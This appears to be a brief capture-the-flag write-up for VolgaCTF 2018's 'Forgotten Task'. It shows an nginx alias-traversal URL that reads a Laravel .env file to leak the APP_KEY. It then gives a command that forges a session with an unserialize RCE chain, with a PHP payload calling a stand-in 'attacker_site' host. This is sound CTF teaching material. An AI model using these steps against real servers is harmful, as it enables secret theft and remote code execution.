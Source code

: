 # Forgotten Task Writeup

1) Get APP_KEY via nginx [alias_traversal](https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md)

`http://forgotten-task.quals.2018.volgactf.ru/laravel../.env`

2) Create session with unserialize RCE chain

`php laravel_attack.php base64:BTyS9a35xfMVYrNkvo8j0MClde4Jk6Tl/e+/+UCEyWA= "file_get_contents('http://attacker_site/rce_test');"`